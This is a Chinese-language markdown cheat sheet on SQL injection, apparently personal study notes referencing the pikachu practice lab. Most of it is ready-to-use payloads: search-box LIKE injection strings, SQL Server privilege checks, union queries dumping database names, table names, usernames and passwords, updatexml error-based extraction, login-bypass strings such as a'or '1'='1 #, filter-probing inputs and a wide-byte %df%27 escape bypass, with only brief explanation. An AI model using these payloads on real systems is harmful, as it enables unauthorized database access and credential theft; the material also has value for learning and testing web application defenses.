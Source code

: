 # 综合之-搜索型注入指北

## 一、搜索型注入简介与原理

- 1）简介
一些网站为了方便用户查找网站的资源,都对用户提供了搜索的功能,因为是搜索功能,往往是程序员在编写代码时都忽略了对其变量(参数)的过滤,而且这样的漏洞在国内的系统中普遍的存在:

其中又分为POST/GET,GET型的一般是用在网站上的搜索,而POST则用在用户名的登录,可以从form表单的method="get"属性来区分是get还是post。搜索型注入又称为文本框注入。

- 2）$sql="select * from user where password like '%$pwd%' order by password";

这句SQL的语句就是基于用户输入的pwd在users表中找到相应的password，正常用户当然会输入例如admin,ckse等等。但是如果有人输入这样的内容呢？

'and 1=1 and '%'='
这样的话这句SQL语句就变成了这样

select * from user where password like '%fendo'and 1=1 and '%'='%' order by password
changle

## 一.判断权限

a%' and (select is_member('dbo'))=1--    返回正常则 sa-系统管理员--跟windows的帐户没有关系--可以说SA的权限在SQL中是至高无上的。
a%' and (select is_member('db_owner'))=1--   返回正常则 DB
都不是那就只有一种可能啦，public，权限貌似很小。
也可以用另一种命令来判断权限
a%' and 1=(Select IS_SRVROLEMEMBER('sysadmin'));-- sa
a%' and 1=(Select IS_MEMBER('db_owner'));-- DB

## 二、搜索型注入判断
```
'and 1=1 and '%'='
%' and 1=1--'
%' and 1=1 and '%'='
```

## 三、搜索型注入实战

### 1）ge型注入
先查看源代码；
有没有字段过滤；
判断--用户名的数字
%' union select 1,2,3,4,...... and '%'='
如果不报错则为4位数。，5，6，7等等。
and exists (select id from user where LENGTH(username)<6 and id=1) and '%'=' 


### 2）判断 ---字符数量；
输入 ' order by 4#% ,报错
输入 ' order by 3#% ,未报错，通过这个简单的办法找到主查询一共有三个字段。

构造 payload: a' union select database(),user(),version()#%
利用%%闭合来写一段创建并查询数据库表，用户名和email的代码；
select username,id,email from member where username like '%$name%'";
name变成==a' union select database(),user(),4#%
就变成了select username,id,email from member where username like '%$a' union select database(),user(),4#%%'";
`#`后面被注释了。


### 3）---获取表名
a'（赋值） union select（联合查询） table_schema,table_name,2 from information_schema.tables where table_schema='pikachu'#（数据库名）
会返回一堆数据库中的表


查询表 users  和password中的数据名称：
a'union select username（表名） ,password（表明）,4 from users#%


> select下的报错演示

select（查询）/insert（插入语句）/update（数据更新）/delete（删除） 都可以使用报错来获取信息.

```

UPDATEXML(xml_document,XPathstring,new_value)
```

Updatexml() 函数作用:改变(查找并替换)XML文档中符合条件的节点的值.

第一个参数:fiedname是String格式,为表中的字段名.
第二个参数:XPathstring(Xpath格式的字符串).
第三个参数:new_value,String格式,替换查找到的符合条件的 X
改变 XML_document 中符合 XPATH_string 的值

而我们的注入语句为：
```sql
 a' and updatexml(1,concat(0x7e,(SELECT @@version)),0)#
```


其中的concat()函数是将其连成一个字符串，因此不会符合XPATH_string的格式，从而出现格式错误，爆出 ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'



获取数据库表名，输入：a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='password')),0)# ，
但是反馈回的错误表示只能显示一行，所以采用 limit 来一行一行显示

字段名 a' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0)# 更改limit后面的数字，爆表名



数据 a' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#




# **综合之-登录界面的sql语句集合**

**基于错误的POST型单引号字符型注入**

username-  a
passowrd-  a'or '1'='1 #

**基于错误的双引号POST型字符型变形的注入**

username-  a
passowrd-  a')or 1=1
passowrd-  a')or '1'='1



**POST单引号变形双注入**

username-  a
passowrd-  a')or ('1')=('1



# **综合之-测试被过滤或敏感词汇**

**字符**：
```
确认过滤了#

?id=%231
确认过滤了or

?id=or1

确认过滤多行注释符
?id=/*1

确认过滤了单行注释
?id=1'--%20
?id=1'#


确认过滤了斜杠

?id=/1
确认过滤了反斜杠

?id=1\
确认过滤了空格，报错注入才行哦，这个判断

?id=1%20
?id=1' ' '
```



**词汇**(union和select的)：
```
?id=1' union
?id=1' seletct
```

## **URL编码转义**

### 绕过空格：
`%A0 `
在URL编码中为：空值，空格。
是html中的不间断空格字符或&nbsp;


## **单引号被转义**
在每个单引号前面加"/"是php自带的转义的一种。
使用宽字节注入，应该可以绕过，常使用的是`%df%27`,mysql会认为会是一个宽字节，类似于 `x'`就可以进行绕过注入。


